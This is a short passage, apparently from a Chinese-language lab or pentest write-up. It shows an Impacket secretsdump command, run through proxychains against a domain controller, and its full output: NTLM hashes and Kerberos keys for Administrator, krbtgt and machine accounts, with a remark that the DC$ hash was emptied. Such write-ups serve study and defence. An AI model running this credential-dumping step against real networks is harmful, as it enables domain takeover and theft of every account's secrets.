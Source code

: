```bash
└─# proxychains4 python3 secretsdump.py 'fbi.gov/dc$@10.10.10.139' -no-pass  
```

```
[proxychains] Dynamic chain  ...  127.0.0.1:53301  ...  10.10.10.139:445  ...  OK
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Dynamic chain  ...  127.0.0.1:53301  ...  10.10.10.139:135  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:53301  ...  10.10.10.139:49669  ...  OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:669a3273144a82b942377c1001ed03a3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d19009f38e6b6720109b3fab3fa98090:::
fbi.gov\fileserver:1103:aad3b435b51404eeaad3b435b51404ee:a7670b92c536e6684b3620f2ddca7539:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
FILESERVER$:1104:aad3b435b51404eeaad3b435b51404ee:007803fe050526edbc7ea8f321544cb8:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:a4b17d1c198d7e84afdc7879ad5b97f0da34d1f3e6fd0be1ecd4784a77918425
Administrator:aes128-cts-hmac-sha1-96:4dfa69ce7f92780bccfd24aecb7b20d9
Administrator:des-cbc-md5:2a7fcdc4bcbcadec
krbtgt:aes256-cts-hmac-sha1-96:4d4002368e4e7970bf5cf920bc8de2ed5d77dcf58ec649b02cdede0b3f0f2130
krbtgt:aes128-cts-hmac-sha1-96:f23ad681adf209b1f21c5554e828a85b
krbtgt:des-cbc-md5:4fa19183bc5be38f
fbi.gov\fileserver:aes256-cts-hmac-sha1-96:ced6482b3d945503d2d87fc38db7b6d72439e987c96f1a40427ee80dbd150fb1
fbi.gov\fileserver:aes128-cts-hmac-sha1-96:2f0ef12454dc325b520b8f38afd6d588
fbi.gov\fileserver:des-cbc-md5:98aea8f14a325e97
DC$:aes256-cts-hmac-sha1-96:61df1f3d887f788352e6a215260741fe50ab7c8304878a99218e644bbac683d5
DC$:aes128-cts-hmac-sha1-96:90307e2edc8642691d28ae3c98e05792
DC$:des-cbc-md5:68409d31b591a18c
FILESERVER$:aes256-cts-hmac-sha1-96:3765b6f2a083940807a32d6af5e1edf6af90da68d356588249e99467b543c54d
FILESERVER$:aes128-cts-hmac-sha1-96:7e4d955ff4dd9230aba760251a8292ae
FILESERVER$:des-cbc-md5:d37013b067436d57
[*] Cleaning up... 
```

此时 dc$ 的 hash 已经被置空

<img src=".\图片\Snipaste_2023-05-12_18-09-07.png" alt="Snipaste_2023-05-12_18-09-07" style="zoom:67%;" />

